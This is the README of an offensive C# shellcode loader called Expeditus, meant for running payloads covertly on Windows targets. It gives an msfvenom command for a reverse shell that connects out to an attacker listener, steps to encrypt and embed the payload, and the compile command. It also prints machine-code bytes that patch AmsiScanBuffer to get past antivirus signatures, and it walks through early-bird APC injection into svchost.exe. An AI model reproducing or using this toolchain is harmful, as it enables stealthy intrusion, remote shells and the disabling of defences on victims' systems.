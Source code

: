 
# Expeditus

Expeditus is a C# loader/dropper that executes shellcode (such as that generated by msfvenom) on a target Windows system. It combines several offensive techniques in order to attempt to do this with some level of stealth.

* Encryption of shellcode before compilation of loader to obfuscate obvious AV signatures in the assembly (see [MITRE ATT&CK ID: T1027](https://attack.mitre.org/techniques/T1027/))
* Patching of amsi.dll for evasion of host-based defences at runtime (see [MITRE ATT&CK ID: T1562.001](https://attack.mitre.org/techniques/T1562/001/))
* Shellcode injection into svchost.exe via the Asynchronous Procedure Call (APC) queue (see [MITRE ATT&CK ID: T1055.004](https://attack.mitre.org/techniques/T1055/004/))

Before performing the process injection, the loader first patches amsi.dll in memory so that the AmsiScanBuffer() function always returns E_INVALIDARG and the final scan result is AMSI_RESULT_CLEAN. This should allow the process injection to proceed without as much scrutiny from AV, although there is also a fair risk that kernel32 is hooked and so our Windows API calls can be examined. Unhooking of kernel32 is a planned improvement for future work.

The loader then uses the 'early bird' variation of the APC queue code injection technique. A new svchost.exe process is created in a suspended state. A new buffer is created inside it and the decrypted shellcode is copied into this. A new entry is added to the main thread's APC queue with a pointer to the shellcode buffer. The main thread is then resumed, the Expeditus loader process exits, and the independent svchost.exe process executes the user's shellcode.

## Usage

First of all the user needs to write or otherwise generate some suitable shellcode that they would like to run on the target system. For example:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f powershell`

The above command gives output of the following form:

`[Byte[]] $buf = 0xfc,0x48,0x83...`

This shellcode should then be copied and pasted into the payload-encrypt.ps1 script which can then be executed. The output should look like this:

`Encrypted payload to paste into strEncryptedPayload variable in expeditus.cs: lCfnjZWA....WsA==`

The output is the shellcode after being XOR encrypted and then Base64 encoded. It should be copied and pasted into the expeditus.cs file in the strEncryptedPayload variable which you will find around line 119.

Finally, the expeditus.cs loader can now be compiled ready to use:

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:exe /out:expeditus.exe expeditus.cs`

Running expeditus.exe on the target should result in a new svchost.exe process appearing. The expeditus.exe process will termainate immediately and the (far less suspicious) svchost.exe process will remain until the shellcode exits (for example, when you terminate your reverse shell) at which point the svchost.exe process also terminates.

## Technical Details

### In-memory patching of amsi.dll

See the [memory patching AMSI bypass](https://rastamouse.me/memory-patching-amsi-bypass/) blog post by Rasta Mouse for a detailed explanation of this technique.

As far as implementing it in our loader goes, we just need to make sure that our patch of the AmsiScanBuffer() function somehow places 0x80070057 (E_INVALIDARG) into the EAX register and then returns. We have not used the simplest and most obvious method of achieving this (mov eax, 0x80070057; ret) that is used in the blog post. This is because many AV products now have a signature to match those specific bytes. Instead we use the following code to get the same result while bypassing the existing AV signatures.
			
`and eax,0x00000000`
`add eax,0x90940031`
`sub eax,0x108CFFDA`
`ret`
			
We place zero into EAX by performing an AND of its current (irrelevant) value with 0x00000000. We then add 0x90940031 to it and subtract 0x108CFFDA which gets us to our required value of 0x80070057.

Putting those instructions through an assembler gives us the machine code for our patch.

`byte[] amsiScanBufferPatch = {0x83,0xE0,0x00,0x05,0x31,0x00,0x94,0x90,0x2D,0xDA,0xFF,0x8C,0x10,0xC3};`

The rest of the Amsipatch class is self-explanatory. We simply look up the address of the AmsiScanBuffer() function and overwrite the first few bytes of it with our patch. 

### Early bird APC Queue code injection

The shellcode is stored inside a local variable in expeditus.cs in encrypted form to at least avoid detection of the shellcode in the static .NET assembly. When it is executed, this is decrypted back to the raw shellcode in a buffer in memory after the amsi.dll patch has been applied.

We then make several API calls to kernel32 in order to perform our chosen process injection technique.

* CreateProcess is used to create a new svchost.exe process in a suspended state
* VirtualAllocEx is used to allocate memory to a new readable and writeable (PAGE_READWRITE) buffer inside the svchost.exe process the same size as the shellcode
* WriteProcessMemory is used to copy the contents of the shellcode buffer in the expeditus.exe process to the new buffer in the svchost.exe process
* VirtualProtectEx is used to change the new buffer's memory protection status to readable and executable (PAGE_EXECUTE_READ)
* OpenThread is used to get a pointer to the main thread of the svchost.exe process
* QueueUserAPC is used to add a pointer to the shellcode buffer to the main thread's APC queue
* ResumeThread is used to resume the main thread

Once this simple procedure has completed the expeditus.exe process terminates leaving behind a legitimate svchost.exe process with our shellcode queued to it's main thread.
		
			

